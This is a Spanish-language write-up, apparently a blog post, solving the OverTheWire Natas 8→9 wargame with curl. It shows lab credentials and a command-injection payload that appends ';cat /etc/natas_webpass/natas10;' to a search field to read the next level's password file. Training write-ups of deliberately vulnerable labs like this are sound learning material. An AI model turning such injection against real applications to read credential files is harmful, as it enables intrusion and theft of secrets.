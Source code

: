 ```yaml
---
title: OverTheWire - Natas 8 -> 9 (sin navegador)
layout: post
post-image: /assets/images/gatohacker1.jpg 
description: La resolución de Natas 8 -> 9 sin el uso de un navegador web.
tags:
- OverTheWire
- Natas
- post
- writeups
---
```

# Información
---

> Las contraseñas cambian cada cierto tiempo, existe la posibilidad de que esta contraseña ya no sea válida

```
Username: natas9
Password: W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl
URL:      http://natas9.natas.labs.overthewire.org
```

# Solución
---

Primero ejecutamos el comando curl con el parámetro `-u` para indicar las credenciales. 

```bash
curl -u natas9:W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl http://natas9.natas.labs.overthewire.org/
```

![](/images/images-otw-natas/natas8-9-1.png)

Vemos que necesitamos ingresar un valor para buscar, y su código fuente es encuentra en `index-source.html`.

![](/images/images-otw-natas/natas8-9-2.png)

Vamos al archivo pero no se puede leer nada.

```bash
curl -u natas9:W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl http://natas9.natas.labs.overthewire.org/index-source.html
```

![](/images/images-otw-natas/natas8-9-3.png)

Solucionamos esto con la herramienta `html2text` que se puede instalar con `sudo apt install html2text`.

```bash
curl -u natas9:W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl http://natas9.natas.labs.overthewire.org/index-source.html | html2text
```

![](/images/images-otw-natas/natas8-9-4.png)

Observamos que se está ejecutando el comando grep contra el archivo dictionary.txt.

![](/images/images-otw-natas/natas8-9-5.png)

El input que ingresamos se guarda en la variable `$key` y se agrega al comando grep sin ningún filtro, por lo tanto, podremos ejecutar comandos.

![](/images/images-otw-natas/natas8-9-6.png)

Volvemos a la página principal y con el parámetro `-d` ingresamos los valores `needle=;ls` y `submit` que puede ser cualquier cosa. Usamos `;` para terminar el comando grep y `ls` para listar los archivos.

```bash
curl -u natas9:W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl http://natas9.natas.labs.overthewire.org/ -d 'needle=;ls&submit=hola'
```

![](/images/images-otw-natas/natas8-9-7.png)

Vemos el resultado del comando.

![](/images/images-otw-natas/natas8-9-8.png)

Ejecutamos el comando `cat` sobre el archivo que almacena la contraseña de natas10, pero nos muestra todo el archivo **dictionary.txt**.

```bash
curl -u natas9:W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl http://natas9.natas.labs.overthewire.org/ -d ';cat /etc/natas_webpass/natas10&submit=hola'
```

![](/images/images-otw-natas/natas8-9-9.png)

Esto lo solucionamos simplemente agregando un `;` al final del comando.

```bash
curl -u natas9:W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl http://natas9.natas.labs.overthewire.org/ -d ';cat /etc/natas_webpass/natas10;&submit=hola'
```

![](/images/images-otw-natas/natas8-9-10.png)

# Contraseña
---

`nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu`

---

## [Anterior](/level-7-8)
## [Siguiente](/level-9-10)